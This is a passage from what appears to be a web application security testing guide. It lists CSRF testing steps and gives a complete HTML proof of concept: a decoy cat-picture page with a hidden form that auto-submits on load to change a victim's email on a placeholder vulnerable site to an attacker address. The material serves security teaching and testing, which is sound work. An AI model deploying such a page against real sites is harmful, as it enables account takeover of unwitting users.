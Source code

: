 2. **CSRF Testing Methodology**:
   - Identify sensitive functions
   - Analyze request patterns
   - Check for CSRF protections
   - Create proof-of-concept exploits
   - Test across browsers

3. **CSRF and Modern Web Applications**:
   - SPA considerations
   - API security
   - Token-based authentication
   - CORS implications

```html
<!-- Example: CSRF attack proof of concept -->

<!-- CSRF PoC for changing a user's email address -->
<!-- Assumes the vulnerable application uses this request format:
     POST /account/update
     email=new@example.com&csrf_token=1234 -->

<!DOCTYPE html>
<html>
<head>
    <title>Cute Cats</title>
</head>
<body>
    <h1>Adorable Cat Pictures</h1>
    <img src="https://placekitten.com/400/300" alt="Cute cat">
    
    <!-- Hidden CSRF form that auto-submits -->
    <form id="csrf-form" action="https://vulnerable-site.com/account/update" method="POST" style="display:none;">
        <input type="hidden" name="email" value="attacker@evil.com">
        <!-- No CSRF token included -->
    </form>
    
    <script>
        // Auto-submit the form when the page loads
        window.onload = function() {
            document.getElementById("csrf-form").submit();
        }
    </script>
    
    <p>Thanks for visiting! Here's another cute cat:</p>
    <img src="https://placekitten.com/500/300" alt="Another cute cat">
</body>
</html>
```

### 3.5 Server-Side Request Forgery (SSRF)

Exploiting applications to make server-side requests to unintended locations:
